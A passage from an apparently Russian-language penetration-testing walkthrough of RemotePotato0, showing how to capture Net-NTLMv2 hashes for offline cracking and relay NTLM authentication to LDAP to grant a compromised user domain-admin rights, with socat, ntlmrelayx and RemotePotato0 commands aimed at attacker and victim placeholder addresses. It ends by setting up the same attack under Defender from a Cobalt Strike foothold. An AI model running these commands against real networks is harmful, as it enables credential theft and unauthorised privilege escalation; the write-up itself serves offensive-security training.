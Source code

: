 Запуск RemotePotato0 в режиме сбора хешей
{:.quote}

Как видим, мы успешно получили значение хеша Net-NTLMv2, который теперь можно спокойно брутить в офлайне (режим `5600` hashcat тебе в помощь). Это полноценная замена атаки [Internal Monologue](https://github.com/eladshamir/Internal-Monologue), не требующая к тому же прав локального администратора.

Теперь перейдем к релею на LDAP. Опции те же самые, только добавим флаг `-r`, задающий IP-адрес HTTP-сервера атакующего, который проведет NTLM Relay.

```
~$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:<VICTIM_IP>:9998
~$ sudo ntlmrelayx.py -t ldap://<DC_IP> --no-smb-server --no-wcf-server --no-raw-server --escalate-user <PWNED_USER>
PS > .\RemotePotato0.exe -m 0 -r <ATTACKER_IP> -x <ATTACKER_IP> -p 9998 -s <SESSION_ID>
```

[![Запуск RemotePotato0 в режиме релея](/assets/images/remote-potato-0/remotepotato0-relay.png)](/assets/images/remote-potato-0/remotepotato0-relay.png)
{:.center-image}

Запуск RemotePotato0 в режиме релея
{:.quote}

Вжух, и одной командой мы энтЫрпрайз одмены.

# Боевая практика

Это все, конечно, здорово, но совсем не жизненно.

Усложним задачу: нужно провести ту же атаку при активном дефендере и не обладая вспомогательной машиной на Linux, на которой поднимается TCP-редиректор (допустим, мы проломили внешний периметр и оказались внутри корпоративной инфраструктуры с сессией Cobalt Strike).

